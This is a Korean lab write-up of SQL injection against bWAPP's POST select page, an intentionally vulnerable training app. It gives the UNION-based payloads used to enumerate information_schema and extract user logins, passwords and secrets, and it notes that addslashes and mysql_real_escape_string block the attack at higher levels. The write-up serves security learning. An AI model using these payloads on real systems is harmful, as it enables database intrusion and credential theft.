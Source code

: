 ```yaml
---
layout: single
title: (bWAPP)SQL Injection POST/Search
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low
![그림 1-1](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image.png)

- Select 기능을 통해 특정 값을 추출함
- 입력값을 전달할 수 있는 방안이 페이지상에 없어 Proxy Tool을 사용

![그림 1-2](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image2.png)

- 입력값은 POST 형식으로 전송
- movie 파라미터에 int 형으로 전송

![그림 1-3](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image3.png)

- '(싱글쿼터) 를 통해 DBMS Error 유/무 확인
- DBMS Error 에러발생

```sql
1 order by 8-- 
```

- order by 절 을 사용하여 컬럼 개수 파악
- 7개의 컬럼 존재 추정
![그림 1-4](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image4.png)
- 우선 출력포지션을 확인했다.

```sql
1 and 1=2 union select 1,2,3,4,5,6,7--
```

![그림 1-5](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/imag5.png)
- 이후 동일하게 테이블명, 컬럼명, 데이터 추출을 시도함.

```sql
1 and 1=2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata limit 2,1--
```

```sql
1 and 1=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP' limit 3,1--
```

```sql
1 and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1--
```

```sql
 and 1=2 union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users limit 
 
 ```
![그림 1-6](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image6.png)

- 성공적으로 id, login, password, secret 데이터를 출출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

